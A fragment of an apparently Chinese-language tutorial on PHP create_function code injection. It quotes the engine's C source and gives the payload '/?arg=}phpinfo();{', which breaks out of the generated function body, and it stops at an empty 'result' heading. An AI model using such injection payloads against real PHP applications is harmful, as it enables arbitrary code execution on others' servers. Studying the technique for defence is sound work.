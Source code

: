 ```c
		do {
			ZSTR_LEN(function_name) = snprintf(ZSTR_VAL(function_name) + 1, sizeof("lambda_")+MAX_LENGTH_OF_LONG, "lambda_%d", ++EG(lambda_count)) + 1;
		} while (zend_hash_add_ptr(EG(function_table), function_name, func) == NULL);
		RETURN_NEW_STR(function_name);
	} else {
		zend_hash_str_del(EG(function_table), LAMBDA_TEMP_FUNCNAME, sizeof(LAMBDA_TEMP_FUNCNAME)-1);
		RETURN_FALSE;
	}
}
```



arg为可控参数，我们可以构造如下payload

```php
/?arg=}phpinfo();{
```

调试源码克制构造的函数为：

![](../images/21-6-1_create_function_1.png)

结果：

